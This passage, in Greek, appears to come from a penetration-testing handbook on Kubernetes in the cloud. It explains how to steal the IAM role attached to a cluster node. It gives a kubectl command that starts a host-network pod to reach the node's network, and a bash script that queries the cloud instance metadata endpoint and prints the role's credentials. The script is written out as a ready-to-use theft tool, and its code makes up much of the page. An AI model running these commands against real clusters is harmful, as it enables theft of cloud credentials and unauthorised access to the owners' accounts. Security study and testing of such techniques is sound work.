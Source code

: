 Η προηγούμενη ενότητα αφορούσε το πώς να κλέψετε IAM Roles με pods, αλλά σημειώστε ότι ένα **Node του** K8s cluster θα είναι μια **περίπτωση μέσα στο cloud**. Αυτό σημαίνει ότι το Node είναι πολύ πιθανό να **έχει έναν νέο IAM ρόλο που μπορείτε να κλέψετε** (_σημειώστε ότι συνήθως όλα τα nodes ενός K8s cluster θα έχουν τον ίδιο IAM ρόλο, οπότε μπορεί να μην αξίζει να προσπαθήσετε να ελέγξετε κάθε node_).

Υπάρχει ωστόσο μια σημαντική απαίτηση για να αποκτήσετε πρόσβαση στο metadata endpoint από το node, πρέπει να είστε στο node (ssh session;) ή τουλάχιστον να έχετε το ίδιο δίκτυο:
```bash
kubectl run NodeIAMStealer --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostNetwork": true, "containers":[{"name":"1","image":"alpine","stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent"}]}}'
```
### Κλέψε το Token IAM Ρόλου

Προηγουμένως έχουμε συζητήσει πώς να **συνδέσουμε IAM Ρόλους σε Pods** ή ακόμα και πώς να **διαφύγουμε στον Κόμβο για να κλέψουμε τον IAM Ρόλο** που έχει συσχετιστεί με την παρουσία.

Μπορείτε να χρησιμοποιήσετε το παρακάτω σενάριο για να **κλέψετε** τα νέα σκληρά κερδισμένα **διαπιστευτήρια IAM ρόλου** σας:
```bash
IAM_ROLE_NAME=$(curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ 2>/dev/null || wget  http://169.254.169.254/latest/meta-data/iam/security-credentials/ -O - 2>/dev/null)
if [ "$IAM_ROLE_NAME" ]; then
echo "IAM Role discovered: $IAM_ROLE_NAME"
if ! echo "$IAM_ROLE_NAME" | grep -q "empty role"; then
echo "Credentials:"
curl "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" 2>/dev/null || wget "http://169.254.169.254/latest/meta-data/iam/security-credentials/$IAM_ROLE_NAME" -O - 2>/dev/null
fi
fi
```
## Αναφορές

* [https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
* [https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c](https://medium.com/zeotap-customer-intelligence-unleashed/gke-workload-identity-a-secure-way-for-gke-applications-to-access-gcp-services-f880f4e74e8c)
* [https://blogs.halodoc.io/iam-roles-for-service-accounts-2/](https://blogs.halodoc.io/iam-roles-for-service-accounts-2/)

{% hint style="success" %}